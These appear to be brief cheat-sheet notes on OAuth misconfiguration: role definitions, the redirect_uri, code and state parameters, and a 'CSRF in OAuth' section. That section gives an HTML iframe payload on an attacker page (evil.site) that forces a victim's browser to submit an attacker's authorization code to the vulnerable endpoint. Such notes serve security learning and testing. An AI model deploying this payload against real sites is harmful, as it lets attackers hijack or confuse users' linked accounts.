 # OAUTH MISCONFIGURATION

# ⇒ OAUTH MISCONFIGURATION

- Client Application → Web App want to access user's data
- Resource Owner → The user.
- OAuth service provider → application that control user's data and access to it.
- Parameters:
`/?redirect_uri=<Vulnerable.site>&code=<Token>&state=anti_csrf_token`

![image](https://user-images.githubusercontent.com/108616378/219943215-6a48db1b-f10d-47f4-b7ef-008c832dfb4d.png)

## CSRF in OAUTH

![image](https://user-images.githubusercontent.com/108616378/219943230-41cfea35-22be-40e3-9af5-32240afaa35c.png)

### Code in evil.site:
```html
<iframe src="<Vulnerable-endpoit>?code=<Token-Send-By-OAUTH-Service-provider><i.e h0nZpg4jB32qod922qYplCs2yYXfA>"></iframe>
```
